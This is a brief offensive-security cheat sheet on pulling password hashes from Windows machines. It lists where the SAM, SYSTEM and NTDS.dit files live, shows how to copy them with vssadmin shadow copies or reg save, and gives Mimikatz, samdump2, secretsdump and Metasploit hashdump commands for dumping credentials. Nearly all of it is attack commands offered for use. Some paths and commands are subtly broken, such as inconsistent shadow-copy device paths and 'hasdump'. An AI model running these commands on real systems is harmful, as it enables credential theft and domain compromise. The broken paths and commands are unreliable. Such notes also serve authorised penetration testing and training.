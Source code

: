## Extract Hashes

## Files Location

```
%SystemRoot%\System32\config\SAM # SAM File
%SystemRoot%\System32\config\SYSTEM # SYSTEM File
%SystemRoot%\Windows\NTDS\NTDS.dit # NTDS File
```

## Obtaining Files
### Shadow Copy
```
vssadmin create shadow /for=C:
copy \\?GLOBALROOT\Device\Harddisk\VolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\
vssadmin delete shadow /for=C:
```
### Regedit
```
reg save HKLM\SYSTEM C:\system.hiv
reg save HKLM\SAM C:\sam.hiv
```

## Dumping Hashes

### Mimikatz
Online
```
privilege::debug
token::elevate
lsadump::sam
```
Offline
```
lsadump::sam /system:<system_file> /sam:<sam_file>
```

### Samdump2
```
samdump2 <system_file> <sam_file>
```

### Secretsdump
```
secretsdump.py -ntds <NTDS file> -system <SYSTEM file> -hashes lmhash:nthash LOCAL -outputfile <file>
```

### Metasploit
```
hasdump # on meterpreter session
use post/windows/gather/hashdump
```

